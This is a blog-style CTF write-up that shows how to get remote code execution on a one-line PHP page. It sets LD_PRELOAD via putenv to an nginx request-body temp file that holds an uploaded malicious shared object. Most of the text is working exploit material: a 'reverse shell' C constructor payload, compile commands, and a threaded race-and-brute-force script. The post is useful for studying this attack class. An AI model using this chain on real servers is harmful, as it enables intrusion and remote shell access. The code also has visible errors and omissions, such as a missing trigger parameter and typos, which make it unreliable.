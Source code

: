 ```yaml
---
layout: post
author: L3moon龙
tags: [PHP, Web Security]
---
```

# ez one line php

## Main idea 

Utilizing the feature that nginx will completely save the oversized post data as a temporary file, through conditional competition, the LD_PRELOADThe value of the environment variable is set to the uploaded temporary file, and then in system() when rce is triggered 

this is the index.php 

```php
<?php (empty($_GET["l3mon"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo uwu');?>
```

## Testing temporary file location and content :

we first need to set up the environment, 
- change the configuration of nginx by set `client_body_in_file_onlyOpen` so that temporarily saved files are not deleted: 

our nginx configuration file is `/etc/nginx/nginx.conf` 

```nginx
http {
    client_body_in_file_only on;
    client_body_temp_path /tmp/nginx_client_temp;
    client_body_buffer_size 128k;
    client_max_body_size 128k;
    proxy_temp_path /tmp/nginx_proxy_temp;
    proxy_buffer_size 128k;
    proxy_buffers 4 128k;
    proxy_busy_buffers_size 128k;
    proxy_max_temp_file_size 0;
    fastcgi_temp_path /tmp/nginx_fastcgi_temp;
    fastcgi_buffer_size 128k;
    fastcgi_buffers 4 128k;
    fastcgi_busy_buffers_size 128k;
    fastcgi_max_temp_file_size 0;
    uwsgi_temp_path /tmp/nginx_uwsgi_temp;
    uwsgi_buffer_size 128k;
    uwsgi_buffers 4 128k;
    uwsgi_busy_buffers_size 128k;
    uwsgi_max_temp_file_size 0;
    scgi_temp_path /tmp/nginx_scgi_temp;
    scgi_buffer_size 128k;
    scgi_buffers 4 128k;
    scgi_busy_buffers_size 128k;
    scgi_max_temp_file_size 0;
}
```

our `/etc/nginx/sites-enabled/default`

```nginx
location ~ \.php$ { 
        include snippets/fastcgi-php.conf; 
        client_body_in_file_only on; 
        # With php-fpm (or other unix sockets): 
#       fastcgi_pass unix:/run/php/php7.3-fpm.sock; 
        # With php-cgi (or other tcp sockets): 
        fastcgi_pass 127.0.0.1:9000; 
} 
```
now let's install inotifywait, monitor /var/lib/nginx ： 
    
    ```bash
    apt install inotify-tools
    ```
then we initiate a request to the server, and we can see that the temporary file is created in /var/lib/nginx ： 

```bash
root@kali:~# inotifywait -m /var/lib/nginx -e create
Setting up watches.  Beware: since -r was given, this may take a while!
Watches established.
```
we send a big request to the server, and we can see that the temporary file is created ： 

```python 
mport  requests 
URL =  f'http://ant.com:8888/index.php' 
requests.post(URL, data= 16 * 1024 * 'A' ) 
```

after sending the request, we can see that the temporary file is created ： 

```bash
root@kali:~# cat /var/lib/nginx/body/0000000001
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ....
```
that's interesting, we can see that the temporary file is created in /var/lib/nginx/body/0000000001, and the content is the same as the data we sent. 

## RCE :

### structuring the payload ： 
```c
    // reverse shell payload l3m
# define  _GNU_SOURCE 

# include  <stdlib.h> 

__attribute__ ((__constructor__))  void  preload  ( void ) 
{ 
    system( "echo payload64 | base64 -d | bash" ); 
} 
```

we compile it 
    
```bash
gcc -fPIC reverseshell.c -shared -o reverseshell.so 
```

Dirty data can be spliced ​​directly at the end of the .so file: 

```python
with  open( "reverseshell.so" , "br" )  as  f: 
  c = f.read() 
  c = c +  16 * 1024 * b'A' 
with  open( "reverseshell_dirty.so" , "bw" )  as  f: 
  f.write(c) 
  ```

## The whole exploit chain :
    
```python
import  sys, threading, requests 

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance 
URL =  'http://target:port/index.php' 
done =  False 
# upload a big client body to force nginx to create a /var/lib/nginx/body/$X 
def   uploader  ()  : 
    print( '[+] starting uploader' ) 
    while  not  done: 
        requests.get(URL, data=open("rev.so" , "br" ).read()) 
for  _  in  range( 16 ): 
    t = threading.Thread(target=uploader) 
    t.start() 

# brute force nginx's fds and pids 
def  bruter () : 
    for  pid  in  range(4194304): 
        print( f'[+] brute loop restarted:  {pid} ' ) 
        for  fd  in  range( 4 ,  32 ): 
            f =  f'/proc/ {pid} /fd/ {fd} ' 
            r  = requests.get(URL, params={ 
                'env' :  f"LD_PRELOAD= {f} " , 
            }) 

a = threading.Thread(target=bruter) 
a.start() 

```

Success Rate : 60 %

> with love by l3mon
